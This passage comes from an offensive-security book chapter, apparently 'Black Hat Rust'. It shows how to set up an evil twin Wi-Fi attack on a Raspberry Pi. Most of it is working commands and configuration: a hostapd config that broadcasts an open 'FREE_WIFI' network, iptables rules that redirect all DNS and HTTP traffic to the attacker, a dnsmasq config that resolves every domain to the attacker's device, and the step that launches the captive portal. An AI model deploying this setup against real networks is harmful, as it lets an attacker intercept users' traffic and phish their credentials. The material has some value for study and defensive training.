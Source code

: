 Then we launch the freshly built captive portal:
```bash
$ sudo ./server -p 80 &
```

And we can finally launch the `evil_twin.sh` script.
```bash
$ sudo ./evil_twin.sh
```

In detail, the `./evil_twin.sh` is doing the following.

It configures `hostapd` to turn the Raspberry Pi's built-in wireless card `wlan0` into an access point.

**[ch_09/evil_twin/hostapd.conf](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/evil_twin/hostapd.conf)**
```
interface=wlan0
channel=6
hw_mode=g

ssid=FREE_WIFI

bridge=bhr0
auth_algs=1
wmm_enabled=0
```

**[ch_09/evil_twin/evil_twin.sh](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/evil_twin/evil_twin.sh)**
```bash
hostapd -B hostapd.conf
```

Then it redirects all the HTTP and DNS requests to the Raspberry pi.

```bash
$ ifconfig bhr0 up
$ ifconfig bhr0 10.1.1.1 netmask 255.255.255.0
$ sysctl net.ipv4.ip_forward=1
$ iptables --flush
$ iptables -t nat --flush
$ iptables -t nat -A PREROUTING -i bhr0 -p udp -m udp --dport 53 -j DNAT --to-destination 10.1.1.1:53
$ iptables -t nat -A PREROUTING -i bhr0 -p tcp -m tcp --dport 80 -j DNAT --to-destination 10.1.1.1:80
$ iptables -t nat -A POSTROUTING -j MASQUERADE
```

Finally, it runs the  `dnsmasq` DHCP and DNS server.

**[ch_09/evil_twin/dnsmasq.conf](https://github.com/skerkour/black-hat-rust/blob/main/ch_09/evil_twin/dnsmasq.conf)**
```default
interface=bhr0
listen-address=10.1.1.1
no-hosts
dhcp-range=10.1.1.2,10.1.1.254,10m
dhcp-option=option:router,10.1.1.1
dhcp-authoritative

address=/#/10.1.1.1
```
